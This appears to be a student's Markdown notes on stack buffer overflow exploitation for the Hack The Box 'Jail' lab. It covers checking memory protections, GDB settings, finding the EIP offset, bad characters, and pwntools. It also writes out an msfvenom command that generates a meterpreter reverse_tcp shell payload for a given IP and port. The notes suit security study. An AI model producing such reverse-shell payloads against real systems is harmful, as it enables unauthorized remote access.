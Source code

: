 
# Buffer Overflow Notes
+ jail example included in "Example Code"
  + helpful link for performing it: https://reboare.github.io/htb/htb-jail.html
  + another more helpful link: https://www.hackingarticles.in/hack-the-box-challenge-jail-walkthrough/

+ Check memory protections
  + cat /proc/sys/kernel/randomize_va_space
  + checksec --file=[file]

  + ldd [binary] | grep libc
  

## GDB Commands
+ enter GDB
+ $> gdb [binary file]
+
+ The below commands make gdb follow the forked processes in the program
+ $> set follow-fork-mode child
+ $> set detach-on-fork off
+
+ to view the registers
+ $> i r
+

## Registers
+ EBP: points to the base of the stack, this is your reference
+ EIP: points to the address of the next instruction to read
  + to get the EIP, send a string of unique characters [look at gdb command for this]
  + once you see a certain group of characters inside the EIP you can search for the characters in the original string [once again, look at gdb command for this]
+ ESP: points to where you are now on the stack
  + you can use a debugger

## Common Problems
+ some strings will make the exploit fail.  To solve this, you send a string with all characters.  You slowly remove characters until you have a good string.  
+ shell code cannot contain bad characters
+ remember there is big and little endien, this can make things difficult

## Generating an attack in python
+ first you need to create a seg fault by generating a pattern with the python code, then seeing the registers overwritten
  + this can also help determine endianness.  Little endian is where the values you see overwritten are reverse.  So if you overwrite the register with input string "abcd", then the hex value found after the program crashes will equal "dcba"
+ you'll take the value found in the register you want to overwrite (probably EIP), and search for it in the string pattern created earlier.  The one that caused the program to crash.  From this, you'll get an offset number
+ NOTE: an example of this is in the Jail example, it has nice comments, and should be used as an example
+ Libraries:
  + from pwn import *
  + import struct
+ Important pieces:
  + the offset: this is the number you got from the pattern
    + offset = 'A' * [your number]
  + the shellcode: you'll need to generate this
    + you'll have to find some code that works for the system you're exploiting.
    + $> msfvenom -l payloads | grep linux 
    + then you'll have to generate the payload specific to you're ip and port
    + $> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f py
  + the value you want to write into the register
    + this is a little tricky, you want this value to point to where the shell code will be written to
    + in the case of jail, we are given the address we want to write into the register because the program prints out the userpass address when run in debug mode







